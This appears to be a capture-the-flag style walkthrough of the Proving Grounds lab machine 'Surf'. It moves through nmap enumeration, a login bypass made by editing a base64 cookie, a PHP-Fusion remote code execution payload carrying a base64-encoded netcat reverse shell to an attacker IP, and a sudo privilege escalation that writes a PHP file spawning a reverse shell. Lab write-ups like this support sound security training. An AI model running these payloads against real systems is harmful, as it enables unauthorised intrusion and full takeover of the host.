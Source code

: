 #### Enumeration

```
# Nmap 7.91 scan initiated Sun Nov 14 05:24:04 2021 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/_full_tcp_nmap.txt -oX /home/kali/Documents/OffSecPG/Surf/AutoRecon/results/192.168.73.171/scans/xml/_full_tcp_nmap.xml 192.168.73.171
Increasing send delay for 192.168.73.171 from 0 to 5 due to 11 out of 11 dropped probes since last increase.
Increasing send delay for 192.168.73.171 from 5 to 10 due to 11 out of 22 dropped probes since last increase.
Warning: 192.168.73.171 giving up on port because retransmission cap hit (6).
Nmap scan report for 192.168.73.171
Host is up, received user-set (0.21s latency).
Scanned at 2021-11-14 05:24:05 EST for 1150s
Not shown: 65529 closed ports
Reason: 65529 resets
PORT      STATE    SERVICE REASON         VERSION
22/tcp    open     ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 74:ba:20:23:89:92:62:02:9f:e7:3d:3b:83:d4:d9:6c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDGGcX/x/M6J7Y0V8EeUt0FqceuxieEOe2fUH2RsY3XiSxByQWNQi+XSrFElrfjdR2sgnauIWWhWibfD+kTmSP5gkFcaoSsLtgfMP/2G8yuxPSev+9o1N18gZchJneakItNTaz1ltG1W//qJPZDHmkDneyv798f9ZdXBzidtR5/+2ArZd64bldUxx0irH0lNcf+ICuVlhOZyXGvSx/ceMCRozZrW2JQU+WLvs49gC78zZgvN+wrAZ/3s8gKPOIPobN3ObVSkZ+zngt0Xg/Zl11LLAbyWX7TupAt6lTYOvCSwNVZURyB1dDdjlMAXqT/Ncr4LbP+tvsiI1BKlqxx4I2r
|   256 54:8f:79:55:5a:b0:3a:69:5a:d5:72:39:64:fd:07:4e (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCpAb2jUKovAahxmPX9l95Pq9YWgXfIgDJw0obIpOjOkdP3b0ukm/mrTNgX2lg1mQBMlS3lzmQmxeyHGg9+xuJA=
|   256 7f:5d:10:27:62:ba:75:e9:bc:c8:4f:e2:72:87:d4:e2 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIE0omUJRIaMtPNYa4CKBC+XUzVyZsJ1QwsksjpA/6Ml+
80/tcp    open     http    syn-ack ttl 63 Apache httpd 2.4.38 ((Debian))
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: OPTIONS HEAD GET POST
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Surfing blog
25803/tcp filtered unknown no-response
40073/tcp filtered unknown no-response
42514/tcp filtered unknown no-response
58164/tcp filtered unknown no-response
Aggressive OS guesses: Linux 2.6.32 (91%), Linux 2.6.39 (91%), Linux 3.10 - 3.12 (91%), Linux 3.4 (91%), Linux 3.5 (91%), Linux 4.4 (91%), Synology DiskStation Manager 5.1 (91%), Linux 2.6.35 (90%), Linux 3.10 (90%), Linux 2.6.32 or 3.10 (90%)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=11/14%OT=22%CT=1%CU=41788%PV=Y%DS=2%DC=T%G=Y%TM=6190E8
OS:43%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10C%TI=Z%II=I%TS=A)OPS(O1=
OS:M506ST11NW7%O2=M506ST11NW7%O3=M506NNT11NW7%O4=M506ST11NW7%O5=M506ST11NW7
OS:%O6=M506ST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y
OS:%DF=Y%T=40%W=FAF0%O=M506NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD
OS:=0%Q=)T2(R=N)T3(R=N)T4(R=N)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=
OS:)T6(R=N)T7(R=N)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G
OS:%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 3.956 days (since Wed Nov 10 06:47:01 2021)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 8080/tcp)
HOP RTT       ADDRESS
1   209.35 ms 192.168.49.1
2   208.30 ms 192.168.73.171

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Nov 14 05:43:15 2021 -- 1 IP address (1 host up) scanned in 1151.78 seconds

```

After browsing for a while, the website looks nothing interesting. We use feroxbuster to discover new content.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h00m37s_001_.png)

We find a administration directory that is a login page. Using hydra with username ```admin``` to try to brute force a valid credential but failed.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h01m56s_002_.png)

I use Burp Sutie for further analysis. There is an interesting setting in login page.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h02m39s_003_.png)

We decode auth_status base64 string and get a string ```{'success':'false'}```. 

![iamge](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_11h03m30s_004_.png)

Trying to modify it to bypass the login verification.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h15m30s_005_.png)

We log in successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_13h19m42s_006_.png)

The ```Check Server Status``` page can check that the server where is installed PHP-Fusion is correctly running.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h00m22s_007_.png)

I found an RCE [vulnerability](https://www.exploit-db.com/exploits/49911) related to PHP-Fusion. Refer to the vulnerability description we create a new request payload to try to get the reverse shell.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_14h28m33s_008_.png)

Encoding the connection string to base64 format and make sure to add spaces to avoid ```+``` or ```=```.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_15h49m48s_009_.png)

```
echo "nc -e /bin/bash 192.168.49.162 80  " | base64
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h07m15s_010_.png)

We now combine request and base64 strings and modify the request url in Burp Suite.

```
http://127.0.0.1:8080/infusions/downloads/downloads.php?cat_id=${system(base64_decode(bmMgLWUgL2Jpbi9iYXNoIDE5Mi4xNjguNDkuMTYyIDgwICAK))}
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h22m10s_011_.png)

Sending the request to the server and get the shell successfully.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h31m46s_012_.png)

#### Privilege Escalation

After searching for a while, I find there is a file in ```/var/www/server/administration/config/config.php``` includes the password.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h55m46s_013_.png)

We use the username ```james``` and password ```FlyToTheMoon213!``` to log in via ssh.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_16h57m01s_014_.png)

Running the linpeas script and find james can run follow command as root.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_17h02m58s_015_.png)

We have to check the file permission.

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_17h05m35s_016_.png)

Because user ```www-data``` can modify file. We reconnect to www-data session shell and change the codes. 

```
echo "<?php system(\"nc -e /bin/bash 192.168.49.162 80\"); ?>" >  /var/backups/database-backup.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_17h31m28s_017_.png)

Executing the php file with sudo.

```
sudo /usr/bin/php /var/backups/database-backup.php
```

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_17h31m55s_018_.png)

![image](https://github.com/tedchen0001/OSCP-Notes/blob/master/Off_Sec_PG/Pic/Surf/Surf_2021.11.21_17h32m21s_019_.png)
